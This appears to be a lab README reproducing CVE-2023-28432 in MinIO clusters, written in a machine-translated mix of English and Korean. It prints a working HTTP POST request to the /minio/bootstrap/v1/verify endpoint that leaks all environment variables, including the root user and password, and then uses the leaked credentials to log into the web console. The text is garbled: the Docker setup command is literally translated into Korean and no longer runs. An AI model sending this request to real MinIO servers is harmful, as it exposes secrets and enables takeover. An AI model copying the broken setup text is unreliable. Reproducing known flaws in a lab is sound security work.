

# MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO는 GNU Affero 일반 공중 사용 허가서 v3.0에 따라 출시된 고성능 오브젝트 스토리지입니다.

RELEASE.2023-03-20T20-16-18Z` 이전 버전에서 MinIO를 클러스터 모드로 배포할 경우 정보 유출 취약점이 존재합니다. 공격자는 HTTP 요청을 통해 `MINIO_SECRET_KEY`, `MINIO_ROOT_PASSWORD`를 포함한 대상 프로세스의 모든 환경 변수를 획득할 수 있습니다.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

다음 명령을 실행하여 MinIO 클러스터를 시작합니다:

```
도커 컴포즈 업 -d
```

클러스터가 시작되면 다음에서 웹 콘솔을 탐색할 수 있습니다. `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. 모든 환경 변수를 검색하도록 요청을 보냅니다:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:


